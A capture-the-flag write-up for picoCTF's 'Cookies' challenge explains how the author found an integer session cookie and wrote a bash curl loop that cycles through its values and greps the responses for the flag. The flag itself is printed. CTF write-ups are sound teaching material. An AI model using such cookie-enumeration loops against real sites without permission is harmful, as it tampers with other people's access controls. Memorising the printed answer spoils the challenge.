 # Cookies
Author: dch0017

## Challenge Description
Who doesn't love cookies? Try to figure out the best one.

## Accessing Site
First we head over to site and see this </br>
![website](./Website.png)
</br>

I enter in "snickerdoodle" to the text box and hit Search, this page pulls up: </br>
![snickerdoodle](./doodle.png)
</br>
## Where are the cookies?
So we see the page changes when entering cookie names and searching, but what about the site cookies? Going back to the homepage, I then open up Chrome's built in dev tools and pop open the network tab. When opening the homepage we have a default cookie 

``name=-1``

Running the search for "snickerdoodle" takes us to the previous page and we can see that our cookie does change.

``name=0``

## Incrementing Cookies
Without knowing how many cookies there are, we can write a quick bash script to loop through any number of cookies and grep out our flag.

I wrote this code in a Linux box and called it cookiegrab.sh
```shell
for i in {1..30}
do
 curl --silent --cookie "name=$i" -X GET "http://mercury.picoctf.net:27177/check" | grep -o "picoCTF{.*}"
done
```
Then I needed to change the permissions of the script to be able to run it using chmod, and then finally run it to get our flag.</br>
```console
┌──(dch0017㉿Linux)-[~/Cookies]
└─$ chmod +x cookiegrab.sh

┌──(dch0017㉿Linux)-[~/Cookies]
└─$ ./cookiegrab.sh
picoCTF{3v3ry1_l0v3s_c00k135_064663be}
```
